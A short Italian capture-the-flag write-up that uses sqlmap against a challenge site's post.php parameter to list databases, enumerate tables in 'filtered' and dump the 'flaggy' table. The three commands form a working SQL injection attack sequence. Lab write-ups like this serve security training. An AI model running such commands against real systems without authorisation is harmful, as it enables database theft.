 Uso sqlmap per testare vulnerabilità di SQL injection

```jsx
sqlmap -u "http://filtered.challs.cyberchallenge.it/post.php?id=*" --dbs
```

- -u specifica l’url
- * indica dove sqlmap deve testare l’iniezione
- — dbs elenca i database disponibili

SQLMap trova il database chiamato filtered.

```jsx
sqlmap -u http://149.202.200.158:5111/post.php?id=* -D filtered --tables
```

Con questo comando sqlmap enumera tutte le tabelle presenti nel database filtered

```jsx
sqlmap -u http://149.202.200.158:5111/post.php?id=* -D filtered -T flaggy --dump
```

Con questo comando estraggo i dati dalla tabella flaggy